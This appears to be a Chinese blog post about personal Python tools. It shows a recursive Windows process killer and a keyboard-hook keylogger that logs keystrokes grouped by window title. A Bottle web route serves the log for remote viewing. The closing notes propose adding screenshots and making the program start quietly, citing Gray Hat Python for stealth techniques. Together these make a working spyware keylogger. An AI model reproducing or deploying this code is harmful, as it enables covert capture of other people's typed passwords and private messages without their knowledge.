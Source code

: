 ###递归关闭进程
{% codeblock lang:python %}
def recuseKill(self,c,parentpid):     
        for process in c.Win32_Process(parentProcessId=parentpid):
            print 'kill ',process.name,process.ProcessId
            process.Terminate()
            self.recuseKill(c,process.ProcessId)
{% endcodeblock %}

###源码
详见[pccmanger.py](https://github.com/niwho/pytools/blob/master/pccmanger.py)
    

##键盘hook
>键盘按键信息捕获

###根据当前窗口名称，分组按键信息
{% codeblock lang:python %}
prev_windows_name = None  
def onKeyboardEvent(event):   
    "处理键盘事件"     
    #print dir(event)
    global prev_windows_name
    #print prev_windows_name,event.WindowName
    if prev_windows_name == event.WindowName:
        if event.Ascii > 32 and event.Ascii <127:
            fobj.write('%s'%(chr(event.Ascii),))
        elif str(event.Key)=='Return':
            fobj.write('[%s]'%str(event.Key))
            print '[%s]<br/>\n'%str(event.Key)
        else:
            fobj.write('[%s]'%str(event.Key))
    else:#不相等
        prev_windows_name = event.WindowName
        ss = '<br>\n【%s】<br/>\n'%(str(event.WindowName),)
        fobj.write(ss.decode('gbk').encode('utf8')) 
        
        if event.Ascii > 32 and event.Ascii <127:
            fobj.write('%s'%(chr(event.Ascii),))
            print '%s'%(chr(event.Ascii),)
        elif str(event.Key)=='Return':
            fobj.write('[%s]'%str(event.Key))
            print '[%s]<br/>\n'%str(event.Key)
        else:
            fobj.write('[%s]'%str(event.Key))
    fobj.flush()

{% endcodeblock %}

###简单的远程查看（web方式）
{% codeblock lang:python %}
@route('/')
def index():
    #pass
    filename='hook_log.txt'
    fobj = open(filename,  'r') 
    #print fobj.read()   
    #ss = fobj.read()
    return open(filename,  'r')#gbk编码文件    #bottle.static_file(filename, root='./') 
{% endcodeblock %}
###源码
详见[keboard_recoder.py](https://github.com/niwho/pytools/blob/master/keboard_recoder.py)
###进一步
1. 注意这里的http服务和键盘钩子服务使用multiprocessing分开，2这都需要循环，尝试合并到一起，gevent的协程hub会造成PumpMessages的阻塞
2. 增加截图会更有‘指导性’，注意图片大小问题，全屏截图有系统api
3. 程序的悄悄启动问题， gray hat python可以找到一些指引，hook‘正常的操作’做些动作，再返回‘正常的操作’


